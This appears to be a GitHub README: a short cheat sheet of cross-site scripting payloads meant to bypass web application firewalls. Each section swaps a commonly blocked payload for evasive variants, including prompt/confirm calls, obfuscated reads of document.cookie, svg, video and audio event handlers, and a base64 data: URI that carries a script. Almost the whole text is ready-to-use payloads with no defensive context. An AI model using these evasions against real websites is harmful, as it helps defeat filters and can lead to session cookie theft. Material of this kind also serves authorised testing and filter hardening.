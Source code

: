 <h1>$${\color{red}Cross-Site} \space {\color{Goldenrod}Scripting }$$</h1>

## Simple Rules to Bypass WAFs

### Instead of using:

```alert('xss')```

```alert(1)```


### 1. The best choise is:

```
prompt('xss')
prompt(8)
confirm('xss')
confirm(8)
alert(/xss/.source)
window[/alert/.source](8)
```

----------------------

### 2. Instead of using:

```alert(document.cookie)```


### The best choise is:

```
with(document)alert(cookie)
alert(document['cookie'])
alert(document[/cookie/.source])
alert(document[/coo/.source+/kie/.source])
```

-----------

### 3. Instead of using:

```<img src=x onerror=alert(1);>```


### The best choise is:

```
<svg/onload=alert(1)>
<video src=x onerror=alert(1);>
<audio src=x onerror=alert(1);>
```


### 4. Instead of using:

```javascript:alert(document.cookie)```


### The best choise is:

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

![image](https://github.com/user-attachments/assets/9b437a30-1365-4301-96f5-a6cedc4dc515)
